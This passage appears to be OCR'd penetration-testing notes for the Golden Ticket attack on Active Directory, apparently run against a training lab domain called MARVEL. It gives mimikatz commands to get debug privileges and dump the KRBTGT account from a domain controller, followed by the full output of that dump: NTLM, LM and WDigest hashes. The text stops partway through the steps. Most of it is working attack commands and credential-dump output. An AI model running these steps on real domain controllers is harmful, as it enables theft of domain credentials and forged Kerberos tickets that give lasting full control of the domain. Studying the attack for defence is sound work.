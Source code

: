 ### **Golden Ticket Attack Steps**

1. Initiate mimikatz on the Domain Controller
    
    - From cmd run the following
    
    ```Bash
    mimikatz.exe
    privilege::debug
    ```
    
2. **Dump KRBTGT Information**:
    - From Mimikatz, inject and target the **KRBTGT account**:
        
        ```Shell
        lsadump::lsa /inject /name:krbtgt
        ```
        
        ```Bash
        mimikatz # lsadump::lsa /inject /name:krbtgt
        Domain : MARVEL / S-1-5-21-1169423831-1230255408-155128205
        
        RID  : 000001f6 (502)
        User : krbtgt
        
         * Primary
            NTLM : 2c081f2e0bea2205c1ef18d973589b15
            LM   :
          Hash NTLM: 2c081f2e0bea2205c1ef18d973589b15
            ntlm- 0: 2c081f2e0bea2205c1ef18d973589b15
            lm  - 0: 65e4e9988016015ab5d8385b75ca5c18
        
         * WDigest
            01  88d844279eadd87ab071853770569d0c
            02  e98f06406fcc4e4c6c40f2195339c21f
            03  7a0e4c8dad5c98b7a7b39ee24902853f
            04  88d844279eadd87ab071853770569d0c
            05  e98f06406fcc4e4c6c40f2195339c21f
            06  37ee2626ebf385264f621862e52df5ab
            07  88d844279eadd87ab071853770569d0c
            08  674973620143c690c27cc3bf1ce871b9
            09  674973620143c690c27cc3bf1ce871b9
            10  37fad567e68135481b3724dd1543001f
            11  f5b01f4358e9630fb955535328fb6a98
            12  674973620143c690c27cc3bf1ce871b9
            13  9665b438e77131a9b0fd5783a5a60733
            14  f5b01f4358e9630fb955535328fb6a98
            15  c7087e61f4f56b58628b17831b516ed5
            16  c7087e61f4f56b58628b17831b516ed5
            17  d99944935a66956bd9c7d671f404efdd
            18  408d418d6092b6379ef72e1f353c8208
            19  91073f665f06933c9a88f0cf562a8a6c
            20  40e93e9331dadd7079a8ec1c597518b9
            21  8b1aeb9ca202d8e32b7ec47e3db97734
            22  8b1aeb9ca202d8e32b7ec47e3db97734
            23  4672eb6b155fdea2daf52c6d64ac3372
            24  5049c4a5065acb2ffb8264ad60cc4026
            25  5049c4a5065acb2ffb8264ad60cc4026
            26  22510dbf354f54715f1104bb2922f28a
            27  5dd1d23f22a2ea81dc50082773f84649
            28  e891cda264b513ba986dc22688345838
            29  e79bdad2d8d1377633a6cd2a1d3afe06
        